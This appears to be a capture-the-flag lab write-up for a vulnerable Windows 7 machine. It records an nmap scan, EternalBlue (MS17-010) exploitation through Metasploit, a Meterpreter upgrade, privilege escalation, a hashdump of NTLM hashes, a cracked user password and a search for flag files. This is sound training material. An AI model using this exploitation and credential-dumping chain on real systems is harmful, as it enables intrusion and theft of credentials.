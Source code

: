 <pre>
Machine IP: 10.10.255.187

Enum:
    nmap -sV -sC -oA nmap/blue 10.10.255.187
Open Ports:
    135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
Vuln port->     445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service 
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows





exploits :
exploit/windows/smb/ms17_010_eternalblue
post/multi/manage/shell_to_meterpreter


Meterpreter > getsystem to get administrator perms


Meterpreter > hashdump to get hashes and user names
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


Crack the hash with john:
Echo “aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d” > pwd_hash.txt = Jon:alqfna22


Flags:
access_the_machine 
sam_database_elevated_access
admin_documents_can_be_valuable 

Find all flags:
dir *flag*.txt /s

Go with cd and type flags :D
</pre>
